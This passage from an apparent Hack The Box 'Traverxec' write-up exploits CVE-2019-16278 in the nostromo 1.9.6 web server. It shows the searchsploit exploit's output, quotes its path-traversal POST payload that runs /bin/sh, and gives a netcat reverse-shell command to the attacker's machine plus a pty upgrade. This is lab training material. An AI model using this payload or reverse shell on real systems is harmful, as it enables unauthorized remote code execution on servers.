 `47837.py` looks like our guy! Let's download it with `searchsploit -m 47837.py`
and try it:

```
$ ./47837.py 10.10.10.165 80 whoami


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 09 Apr 2020 21:08:11 GMT
Server: nostromo 1.9.6
Connection: close


www-data
```

And it works! This is the important part of the code:

```python
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)
```

It is basically a RCE by path traversal, it runs `/bin/sh` and pass to it our
argument.

## Getting a shell
Let's start a netcat listener with `rlwrap nc -lnvp 1337` and get a
reverse shell with `./47837.py 10.10.10.165 80 'nc 10.10.14.81 1337 -c
/bin/bash'`. `rlwrap` allows us to use up and down arrows, and let's get a
prompt also:
```
python -c 'import pty; pty.spawn("bash")'
www-data@traverxec:/usr/bin$
```
